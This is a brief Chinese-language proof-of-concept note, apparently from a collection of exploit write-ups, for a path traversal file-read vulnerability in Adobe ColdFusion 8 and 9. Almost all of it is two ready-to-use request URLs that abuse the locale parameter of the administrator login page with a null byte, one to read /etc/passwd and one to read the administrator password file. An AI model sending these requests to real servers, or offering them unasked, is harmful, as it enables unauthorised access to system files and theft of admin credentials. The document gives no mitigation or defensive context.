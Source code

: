 # Adobe-ColdFusion-文件读取漏洞

最后更新于：2020-09-21 13:01:58

### 漏洞范围

Adobe ColdFusion 8、9

### 漏洞POC

读取etc/passwd

```bash
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en
```

读取后台管理员密码

```bash
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en
```